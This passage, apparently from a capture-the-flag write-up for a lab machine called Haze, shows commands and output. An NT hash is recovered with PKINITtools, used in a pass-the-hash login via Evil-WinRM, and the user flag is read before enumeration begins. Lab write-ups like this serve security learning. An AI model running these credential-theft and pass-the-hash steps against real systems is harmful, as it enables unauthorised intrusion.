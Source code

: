 Then we headed back to `PKINITtools` and used the `AS-REP encryption key` to recover the `NT Hash` of `Edward.Martin` in order to login as him using `Evil-WinRM.

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/PKINITtools]
└─$ python3 getnthash.py -key f4b7f1d9527d7592cb07f1a6ff4fe9e27cb3299af48a0309e716a5cb0372617e haze.htb/edward.martin
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
/home/kali/opt/10_post_exploitation/PKINITtools/getnthash.py:144: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/opt/10_post_exploitation/PKINITtools/getnthash.py:192: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting ticket to self with PAC
Recovered NT Hash
09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.135.234 -u 'edward.martin' -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\edward.martin\Documents>
```

## user.txt

Finally we were able to grab the `user.txt`.

```powershell
*Evil-WinRM* PS C:\Users\edward.martin\Desktop> type user.txt
dd2dcdd9fd45eb603043cf4237e38dcf
```

## Enumeration (Edward.Martin)

For the next step of the box we performed a quick `enumeration` as always but since this was a dead end again, we went back to `BloodHound`.

```powershell
*Evil-WinRM* PS C:\Users\edward.martin\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== ===========================================
haze\edward.martin S-1-5-21-323145914-28650650-2368316563-1105


GROUP INFORMATION
-----------------
```